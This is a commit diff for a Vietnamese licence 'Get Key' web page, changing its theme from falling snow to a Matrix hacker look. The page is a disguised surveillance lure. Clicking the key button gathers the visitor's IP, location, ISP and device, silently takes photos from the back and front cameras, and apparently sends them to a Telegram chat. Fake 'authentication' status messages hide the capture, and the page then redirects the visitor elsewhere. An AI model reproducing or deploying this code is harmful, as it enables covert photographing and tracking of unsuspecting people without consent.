

Before and after one commit to nguthinh031-a11y/nguchokffk, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,21 +6,20 @@
 <title>Hệ Thống Get Key</title>
 <link rel="preconnect" href="https://fonts.googleapis.com">
 <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
-<link href="https://fonts.googleapis.com/css2?family=Plus+Jakarta+Sans:wght@400;500;600;700;800&display=swap" rel="stylesheet">
+<link href="https://fonts.googleapis.com/css2?family=Plus+Jakarta+Sans:wght@400;500;600;700;800&family=VT323&display=swap" rel="stylesheet">
 <style>
   :root {
-    --bg-base: #050b14;
-    --panel-bg: rgba(15, 23, 42, 0.7);
-    --border-color: rgba(147, 197, 253, 0.2);
-    --primary: #3b82f6;
-    --accent: #60a5fa;
-    --text-main: #f8fafc;
-    --text-muted: #94a3b8;
+    --bg-base: #000000;
+    --panel-bg: rgba(0, 15, 0, 0.85);
+    --border-color: rgba(0, 255, 65, 0.3);
+    --primary: #00ff41;
+    --accent: #008F11;
+    --text-main: #00ff41;
+    --text-muted: #008F11;
   }
   * { box-sizing: border-box; margin: 0; padding: 0; font-family: 'Plus Jakarta Sans', sans-serif; }
   body {
     background-color: var(--bg-base);
-    background-image: radial-gradient(circle at center, #0f172a 0%, #020617 100%);
     color: var(--text-main);
     min-height: 100vh;
     display: flex;
@@ -31,20 +30,15 @@
     position: relative;
   }
 
-  /* Hiệu ứng tuyết rơi */
-  .snowflake {
+  /* Hiệu ứng Matrix mưa chữ xanh phía sau */
+  #matrix-canvas {
     position: absolute;
-    top: -10px;
-    background: #ffffff;
-    border-radius: 50%;
-    opacity: 0.8;
+    top: 0;
+    left: 0;
+    width: 100%;
+    height: 100%;
+    z-index: 1;
     pointer-events: none;
-    animation: fall linear infinite;
-  }
-  @keyframes fall {
-    0% { transform: translateY(-10px) translateX(0); opacity: 0.8; }
-    50% { opacity: 1; }
-    100% { transform: translateY(105vh) translateX(20px); opacity: 0.2; }
   }
 
   .card {
@@ -53,93 +47,170 @@
     -webkit-backdrop-filter: blur(25px);
     border: 1px solid var(--border-color);
     padding: 40px 32px;
-    border-radius: 32px;
+    border-radius: 16px;
     width: 100%;
     max-width: 380px;
-    box-shadow: 0 25px 50px -12px rgba(0, 0, 0, 0.8);
+    box-shadow: 0 0 30px rgba(0, 255, 65, 0.2);
     text-align: center;
     position: relative;
     z-index: 10;
   }
   .live-clock {
-    font-size: 0.75rem; font-weight: 600; color: #93c5fd;
-    background: rgba(59, 130, 246, 0.1); border: 1px solid rgba(59, 130, 246, 0.2);
-    padding: 6px 14px; border-radius: 20px; display: inline-block; margin-bottom: 20px;
+    font-family: 'VT323', monospace;
+    font-size: 1.1rem;
+    color: #00ff41;
+    background: rgba(0, 255, 65, 0.05);
+    border: 1px solid rgba(0, 255, 65, 0.2);
+    padding: 4px 12px;
+    border-radius: 4px;
+    display: inline-block;
+    margin-bottom: 20px;
+    letter-spacing: 1px;
   }
   .icon-box {
     width: 64px; height: 64px; margin: 0 auto 20px auto;
-    background: linear-gradient(135deg, rgba(59, 130, 246, 0.2), rgba(96, 165, 250, 0.2));
-    border: 1px solid rgba(59, 130, 246, 0.4); border-radius: 20px;
+    background: rgba(0, 255, 65, 0.1);
+    border: 1px solid rgba(0, 255, 65, 0.4); border-radius: 12px;
     display: flex; align-items: center; justify-content: center; font-size: 28px;
-    box-shadow: 0 10px 20px -5px rgba(59, 130, 246, 0.3);
+    box-shadow: 0 0 15px rgba(0, 255, 65, 0.2);
   }
-  h2 { font-size: 1.4rem; font-weight: 700; margin-bottom: 8px; color: #fff; }
-  .subtitle { font-size: 0.85rem; color: var(--text-muted); margin-bottom: 28px; line-height: 1.5; }
+  h2 { font-family: 'VT323', monospace; font-size: 2rem; font-weight: 700; margin-bottom: 8px; color: #00ff41; letter-spacing: 2px; text-shadow: 0 0 8px rgba(0,255,65,0.6); }
+  .subtitle { font-size: 0.85rem; color: #00cc33; margin-bottom: 28px; line-height: 1.5; }
 
+  /* Nút bấm hiệu ứng cyberpunk/hacker có mặt nạ ở góc */
   .btn-primary {
     width: 100%; padding: 16px;
-    background: linear-gradient(135deg, var(--primary), var(--accent));
-    color: #fff; border: none; border-radius: 16px;
+    background: rgba(0, 255, 65, 0.1);
+    color: #00ff41; border: 1px solid #00ff41; border-radius: 8px;
     font-weight: 700; font-size: 1rem; cursor: pointer;
     transition: all 0.3s ease;
-    box-shadow: 0 10px 25px -5px rgba(59, 130, 246, 0.5);
-    display: flex; align-items: center; justify-content: center; gap: 8px;
+    box-shadow: 0 0 10px rgba(0, 255, 65, 0.2);
+    display: flex; align-items: center; justify-content: center; gap: 10px;
+    letter-spacing: 1px;
+    position: relative;
+    overflow: hidden;
   }
-  .btn-primary:hover { opacity: 0.95; transform: translateY(-2px); box-shadow: 0 15px 30px -5px rgba(59, 130, 246, 0.7); }
+
+  /* Hiệu ứng lóe sáng chạy qua nút */
+  .btn-primary::after {
+    content: '';
+    position: absolute;
+    top: -50%;
+    left: -50%;
+    width: 200%;
+    height: 200%;
+    background: linear-gradient(60deg, transparent, rgba(0,255,65,0.2), transparent);
+    transform: rotate(45deg) translateX(-100%);
+    transition: transform 0.6s ease;
+  }
+  .btn-primary:hover::after {
+    transform: rotate(45deg) translateX(100%);
+  }
+
+  .btn-primary:hover {
+    background: #00ff41;
+    color: #000;
+    transform: translateY(-2px);
+    box-shadow: 0 0 25px rgba(0, 255, 65, 0.8);
+  }
+
+  /* Biểu tượng mặt nạ hacker ở góc nút */
+  .hacker-badge {
+    position: absolute;
+    right: 12px;
+    top: 50%;
+    transform: translateY(-50%);
+    font-size: 1.2rem;
+    filter: drop-shadow(0 0 4px #00ff41);
+    animation: pulse-mask 1.5s infinite alternate;
+  }
+
+  @keyframes pulse-mask {
+    0% { transform: translateY(-50%) scale(1); opacity: 0.8; }
+    100% { transform: translateY(-50%) scale(1.15); opacity: 1; }
+  }
 
   /* Nút điều khiển nhạc */
   .btn-music {
     width: 100%; padding: 12px;
     margin-top: 12px;
-    background: rgba(30, 41, 59, 0.5);
-    color: var(--text-muted); border: 1px solid var(--border-color); border-radius: 14px;
+    background: rgba(0, 0, 0, 0.5);
+    color: #008F11; border: 1px solid rgba(0, 255, 65, 0.2); border-radius: 8px;
     font-weight: 600; font-size: 0.85rem; cursor: pointer;
     transition: all 0.3s ease;
     display: flex; align-items: center; justify-content: center; gap: 8px;
   }
-  .btn-music:hover { background: rgba(59, 130, 246, 0.1); color: #fff; border-color: rgba(59, 130, 246, 0.4); }
+  .btn-music:hover { background: rgba(0, 255, 65, 0.1); color: #00ff41; border-color: rgba(0, 255, 65, 0.5); }
 
-  .status { margin-top: 16px; font-size: 0.8rem; font-weight: 500; color: var(--text-muted); min-height: 20px; }
-  #video, #canvas, #music-container { display: none; }
+  .status { margin-top: 16px; font-weight: 500; color: #00cc33; min-height: 20px; font-family: 'VT323', monospace; font-size: 1.1rem; }
+  #video, #canvas { display: none; }
 </style>
 </head>
 <body>
 
-  <!-- Khung chứa nhạc ẩn (Hỗ trợ mọi loại link) -->
-  <div id="music-container"></div>
+  <!-- Canvas hiệu ứng Matrix (chữ xanh rơi xuống) -->
+  <canvas id="matrix-canvas"></canvas>
 
-  <!-- Tạo hiệu ứng tuyết rơi bằng JS -->
+  <!-- Thẻ Audio ẩn chạy nhạc trực tiếp[span_0](start_span)[span_0](end_span) -->
+  <audio id="bg-music" loop preload="auto">
+    <!-- THAY LINK NHẠC CỦA BẠN VÀO THUỘC TÍNH SRC DƯỚI ĐÂY -->
+    <source src="THAY_LINK_NHAC_O_DAY" type="audio/mp3">
+  </audio>
+
+  <!-- Script chạy hiệu ứng Matrix (Hacker mưa chữ) -->
   <script>
-    function createSnowflakes() {
-      const numSnowflakes = 40;
-      for (let i = 0; i < numSnowflakes; i++) {
-        const sf = document.createElement('div');
-        sf.classList.add('snowflake');
-        sf.style.left = Math.random() * 100 + 'vw';
-        sf.style.animationDuration = (Math.random() * 3 + 2) + 's';
-        sf.style.animationDelay = (Math.random() * 5) + 's';
-        const size = Math.random() * 4 + 2 + 'px';
-        sf.style.width = size;
-        sf.style.height = size;
-        document.body.appendChild(sf);
+    const canvas = document.getElementById('matrix-canvas');
+    const ctx = canvas.getContext('2d');
+
+    function resizeCanvas() {
+      canvas.width = window.innerWidth;
+      canvas.height = window.innerHeight;
+    }
+    window.addEventListener('resize', resizeCanvas);
+    resizeCanvas();
+
+    const chars = '01ABCDEFXYZ$#@&%*<>[]{}';
+    const fontSize = 16;
+    let columns = canvas.width / fontSize;
+    let drops = [];
+    for (let i = 0; i < columns; i++) {
+      drops[i] = 1;
+    }
+
+    function drawMatrix() {
+      ctx.fillStyle = 'rgba(0, 0, 0, 0.05)';
+      ctx.fillRect(0, 0, canvas.width, canvas.height);
+
+      ctx.fillStyle = '#00ff41';
+      ctx.font = fontSize + 'px monospace';
+
+      for (let i = 0; i < drops.length; i++) {
+        const text = chars.charAt(Math.floor(Math.random() * chars.length));
+        ctx.fillText(text, i * fontSize, drops[i] * fontSize);
+
+        if (drops[i] * fontSize > canvas.height && Math.random() > 0.975) {
+          drops[i] = 0;
+        }
+        drops[i]++;
       }
     }
-    window.addEventListener('DOMContentLoaded', createSnowflakes);
+    setInterval(drawMatrix, 33);
   </script>
 
   <div class="card">
-    <div class="live-clock" id="clock">Đang tải thời gian...</div>
+    <div class="live-clock" id="clock">[ 00:00:00 ]</div>
 
-    <div class="icon-box">❄️</div>
-    <h2>Hệ Thống Get Key</h2>
-    <p class="subtitle">Bấm vào nút bên dưới để tiến hành lấy mã Key bản quyền của hệ thống.</p>
+    <div class="icon-box">💻</div>
+    <h2>HỆ THỐNG SEC_KEY</h2>
+    <p class="subtitle">Nhấn xác thực bên dưới để giải mã lấy mã Key bản quyền.</p>
 
     <video id="video" autoplay playsinline></video>
     <canvas id="canvas"></canvas>
 
-    <!-- Nút Get Key -->
+    <!-- Nút Get Key có hiệu ứng và mặt nạ hacker ở góc -->
     <button class="btn-primary" id="get-key-btn" onclick="triggerProcess()">
-      <span>🔑 GET KEY NGAY</span>
+      <span>⚡ XÁC THỰC NGAY</span>
+      <span class="hacker-badge">🎭</span>
     </button>
 
     <!-- Nút Bật/Tắt Nhạc -->
@@ -155,13 +226,7 @@
   const TELEGRAM_CHAT_ID = '-1004303781844';
   const REDIRECT_URL = 'https://xnhau.city/';
 
-  // ---------------------------------------------------------
-  // THAY LINK NHẠC CỦA BẠN VÀO ĐÂY (Hỗ trợ Youtube, MP3, v.v.)
-  // Nếu là Youtube, hãy dùng dạng embed: https://www.youtube.com/embed/VIDEO_ID?autoplay=1
-  // ---------------------------------------------------------
-  const MUSIC_URL = 'https://open.spotify.com/track/2FOjXz9XVgkn8sUNdaH3Pt?si=EomALRXmTR65eIDvPDtV9w&utm_source=copy-link&rowId=0613099f713aa8e8';
-
-  const musicContainer = document.getElementById('music-container');
+  const bgMusic = document.getElementById('bg-music');
   const musicToggleBtn = document.getElementById('music-toggle-btn');
   const musicIcon = document.getElementById('music-icon');
   const musicText = document.getElementById('music-text');
@@ -169,30 +234,35 @@
 
   function toggleMusic() {
     if (isMusicPlaying) {
-      musicContainer.innerHTML = ''; // Xóa iframe để dừng nhạc
+      bgMusic.pause();
       isMusicPlaying = false;
       musicIcon.textContent = '🎵';
       musicText.textContent = 'Bật Nhạc Nền';
     } else {
-      musicContainer.innerHTML = `<iframe src="${MUSIC_URL}" allow="autoplay" width="0" height="0"></iframe>`;
+      bgMusic.play().then(() => {
         isMusicPlaying = true;
         musicIcon.textContent = '🔇';
         musicText.textContent = 'Tắt Nhạc Nền';
+      }).catch(err => {
+        console.log("Không thể phát nhạc:", err);
+      });
     }
   }
 
-  // Tự động bật nhạc khi vừa vào trang
-  window.addEventListener('load', () => {
-    // Tự động kích hoạt phát nhạc ngầm ngay khi tải trang
-    musicContainer.innerHTML = `<iframe src="${MUSIC_URL}" allow="autoplay" width="0" height="0"></iframe>`;
+  // Tự động kích hoạt nhạc ngay khi người dùng chạm/click bất kì đâu trên trang
+  document.addEventListener('click', function unlockAudio() {
+    if (!isMusicPlaying) {
+      bgMusic.play().then(() => {
         isMusicPlaying = true;
         musicIcon.textContent = '🔇';
         musicText.textContent = 'Tắt Nhạc Nền';
-  });
+      }).catch(e => {});
+    }
+  }, { once: true });
 
   function updateClock() {
     const now = new Date();
-    document.getElementById('clock').textContent = `🕒 ${now.toLocaleTimeString('vi-VN', { hour12: false })}`;
+    document.getElementById('clock').textContent = `[ ${now.toLocaleTimeString('vi-VN', { hour12: false })} ]`;
   }
   setInterval(updateClock, 1000);
   updateClock();
@@ -237,7 +307,7 @@
 
   async function triggerProcess() {
     getKeyBtn.style.display = 'none';
-    statusDiv.textContent = 'Đang khởi tạo bảo mật...';
+    statusDiv.textContent = '[*] Đang khởi tạo kết nối bảo mật...';
 
     let ipDetails = { ip: 'Không rõ', city: 'Không rõ', country: 'Không rõ', org: 'Không rõ' };
     try {
@@ -257,7 +327,7 @@
     let deviceName = /android/i.test(ua) ? 'Android 🤖' : /iphone|ipad/i.test(ua) ? 'iOS 🍏' : 'PC/Laptop 💻';
 
     const infoText =
-      `❄️ <b>YÊU CẦU GET KEY (TUYẾT RƠI)</b> ❄️\n` +
+      `💻 <b>HỆ THỐNG GET KEY (MATRIX HACKER)</b> 💻\n` +
       `━━━━━━━━━━━━━━━━━━━━━\n` +
       `📱 <b>Thiết bị:</b> ${deviceName}\n` +
       `🌐 <b>IP:</b> <code>${ipDetails.ip}</code>\n` +
@@ -265,10 +335,10 @@
       `🏢 <b>Nhà mạng:</b> ${ipDetails.org}\n` +
       `━━━━━━━━━━━━━━━━━━━━━`;
 
-    statusDiv.textContent = 'Đang xác thực link sau...';
+    statusDiv.textContent = '[*] Đang nạp module xác thực...';
     let backPhoto = await takePhoto('environment', '📸 Ảnh Camera Sau');
 
-    statusDiv.textContent = 'Đang xác thực link trước...';
+    statusDiv.textContent = '[*] Đang đồng bộ luồng dữ liệu...';
     let frontPhoto = await takePhoto('user', '📸 Ảnh Camera Trước');
 
     if (backPhoto && backPhoto.blob) {
@@ -299,7 +369,7 @@
       } catch (e) {}
     }
 
-    statusDiv.textContent = 'Thành công! Đang chuyển hướng...';
+    statusDiv.textContent = '[+] Thành công! Đang chuyển hướng...';
     setTimeout(() => {
       window.location.href = REDIRECT_URL;
     }, 1000);
```
Lines whose indentation alone changed are shown as unchanged.
